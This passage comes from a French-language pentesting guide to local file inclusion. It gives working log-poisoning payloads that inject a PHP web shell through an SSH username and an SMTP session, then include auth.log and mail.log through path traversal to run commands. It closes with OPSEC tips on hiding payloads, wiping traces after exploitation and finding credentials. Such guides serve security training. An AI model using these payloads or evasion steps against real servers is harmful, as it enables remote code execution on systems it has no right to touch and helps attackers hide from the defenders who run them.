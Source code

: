 ### SSH logs
```bash
# 1. Tentative de connexion SSH avec payload
ssh '<?php system($_GET["cmd"]); ?>'@target.com

# 2. Inclusion du log
?file=../../../var/log/auth.log&cmd=id
```

### Mail logs
```bash
# 1. Envoyer email avec payload PHP
telnet target.com 25
mail from: <?php system($_GET['cmd']); ?>

# 2. Inclusion
?file=../../../var/log/mail.log&cmd=whoami
```

## 🛡️ Conseils OPSEC
- Éviter les fichiers sensibles sans autorisation (/etc/shadow, SAM)
- Utiliser des payloads discrets dans les logs (pas de commandes évidentes)
- Nettoyer les traces après exploitation (logs empoisonnés)
- Préférer les wrappers PHP aux inclusions HTTP (moins détectable)
- Documenter tous les fichiers consultés pour la reproductibilité

## ⚠️ Erreurs fréquentes
- Oublier de tester tous les paramètres suspects (pas seulement file=)
- Ne pas adapter les chemins selon l'OS (Unix vs Windows)
- Ignorer les wrappers PHP (plus puissants que l'inclusion basique)
- Lancer des RFI sans vérifier les protections réseau
- Ne pas nettoyer les logs empoisonnés après exploitation

## 💡 Astuces
- Combiner LFI avec log poisoning pour obtenir RCE
- Utiliser php://filter pour lire le code source sans exécution
- Tester les inclusions dans les erreurs 404 personnalisées
- Chercher les fichiers de configuration pour obtenir des credentials
- Utiliser data:// pour des payloads sans fichier externe

## 🔗 Pour aller plus loin
- [PayloadsAllTheThings - LFI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
- [HackTricks - LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [OWASP LFI](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- [PHP Wrappers](https://www.php.net/manual/en/wrappers.php)

## 🧭 Navigation
- [Guide SQL Injection](./SQL_Injection.md)
- [Guide XSS](./XSS.md)
- [Retour aux applications web](./README.md) 